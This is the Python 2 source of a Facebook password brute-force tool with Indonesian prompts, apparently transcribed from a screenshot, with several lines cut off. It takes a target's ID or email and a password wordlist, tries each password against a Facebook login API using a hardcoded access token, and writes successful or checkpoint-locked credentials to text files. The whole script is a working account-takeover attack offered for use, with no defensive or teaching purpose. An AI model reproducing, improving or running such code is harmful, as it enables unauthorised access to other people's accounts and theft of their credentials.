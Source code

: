 import os, sys, time, datetime, random, json
from multiprocessing.pool import ThreadPool
try:
    import mechanize
except ImportError:
    os.system('pip2 install mechanize')
else:
    try:
        import requests
    except ImportError:
        os.system('pip2 install requests')

from requests.exceptions import ConnectionError
from mechanize import Browser
reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
br.addheaders = [('User-Agent', 'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]

internet = '\n\x1b[33;1m     \xe2\x95\xad\xe2\x94\x81\xe2\x94\x81\xe2\x94\x81\xe2\x94\x81\xe2\x94\x81\xe2\x94\x81\xe2                       >
banner = '\n\033[31;1m____ ____ ____ ____ ___  ____ ____ _  _\n|___ |__| |    |___ |__] |  | |  | |_/\n\033[37;1m|                          >


def ceknet():
    try:
        os.system('reset')
        print internet
        print '\r\033[37;1m[\x1b[92m+\033[37;1m] \033[37;1mMeriksa Koneksi Internet'
        time.sleep(2)
        toolbar_width = 25
        sys.stdout.write('[%s]' % ('-\033[37;1m' * toolbar_width))
        sys.stdout.flush()
        for i in range(toolbar_width):
            sys.stdout.write('\r')
            sys.stdout.flush()
            sys.stdout.write('\033[37;1m[')
            sys.stdout.write('\033[36;1m#\033[37;1m' * (i + 1))
            sys.stdout.flush()
            time.sleep(5.0 / 100)
        try:
            rq = requests.get('http://facebook.com')
            time.sleep(3.5)
            print '\033[37;1m] \033[35;1m~> \033[32;1mSucces '
            time.sleep(2.0)
            start()
        except requests.exceptions.ConnectionError:
            time.sleep(3.5)
            print '\033[37;1m]\033[35;1m ~>\033[31;1m Tidak Ada koneksi'
            time.sleep(1.5)
            sys.exit()

    except KeyboardInterrupt:
        time.sleep(3.5)
        exit('\n\033[37;1m[\x1b[92mx\033[37;1m] \033[31;1mProgram berhenti\n')

def start():
        try:
            os.system('reset')
            print banner
            email = raw_input('\033[34;1m[\033[37;1m~\033[34;1m]\033[37;1m ID \033[36;1m| \033[37;1mEmail\033[36;1m |                       >
            passw = raw_input('\033[34;1m[\033[37;1m~\033[34;1m]\033[37;1m File Wordlist   \033[31;1m:\033[32;1m ')
            total = open(passw, 'r')
            total = total.readlines()
            print '\033[34;1m[\033[37;1m^\033[34;1m] \033[37;1mTarget\033[36;1m :\033[32;1m ' + email
            time.sleep(3.0)
            print '\033[34;1m[\033[37;1m^\033[34;1m] \033[37;1mTotal List \033[36;1m:\033[32;1m ' + str(len(total))
            time.sleep(3.0)
            print
            sandi = open(passw, 'r')
            for pw in sandi:
                try:
                    pw = pw.replace('\n', '')
                    sys.stdout.write('\r\033[32;1m[\033[37;1m=\033[32;1m]\033[34;1m Start \033[37;1m>\033[35;1m '+ema                       >
                    sys.stdout.flush()
                    data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25                       >
                    mpsh = json.loads(data.text)
                    if 'access_token' in mpsh:
                        dapat = open('succes.txt', 'w')
                        dapat.write('[ID]=> ' + email + '\n')
                        dapat.write('[PW]=> ' + pw)
                        dapat.close()
                        print '\n\n\033[32;1m[+] \033[37;1mPASSWORD FOUND'
                        print '\033[32;1m[+] \033[37;1mUsername \033[32;1m: \033[35;1m'+email
                        print '\033[32;1m[+] \033[37;1mPassword \033[32;1m:\033[35;1m '+pw
                        print '\033[32;1m[+] \033[37;1mStatus   \033[32;1m:\033[32;1m SUCCES'
                        print '\033[32;1m[=] \033[37;1mProgram Finish'
                        sys.exit()
                    else:
                        if 'www.facebook.com' in mpsh['error_msg']:
                            ceks = open('succesCP.txt', 'w')
                            ceks.write('[ID]=> ' + email + '\n')
                            ceks.write('[PW]=> ' + pw)
                            ceks.close()
                            print '\n\n\033[33;1m[+] \033[37;1mPASSWORD FOUND'
                            print '\033[33;1m[+] \033[37;1mUsername \033[32;1m: \033[35;1m'+email
                            print '\033[33;1m[+] \033[37;1mPassword \033[32;1m:\033[35;1m '+pw
                            print '\033[33;1m[+] \033[37;1mStatus   \033[32;1m:\033[33;1m CHEKPOINT'
                            print '\033[33;1m[=] \033[37;1mProgram Finish'
                            sys.exit()
                except requests.exceptions.ConnectionError:
                    print '\033[37;1m[\033[32;1mx\033[37;1m] \033[31;1mkoneksi error'
                    sys.exit()

        except IOError:
            print '\033[37;1m[\033[32;1mx\033[37;1m] \033[37;1mAlamat wordlist tidak ada'
            print '\033[37;1m[\033[32;1mx\033[37;1m] \033[37;1mSaya sarankan Untuk Membuatnya sendiri'
            sys.exit()

ceknet()
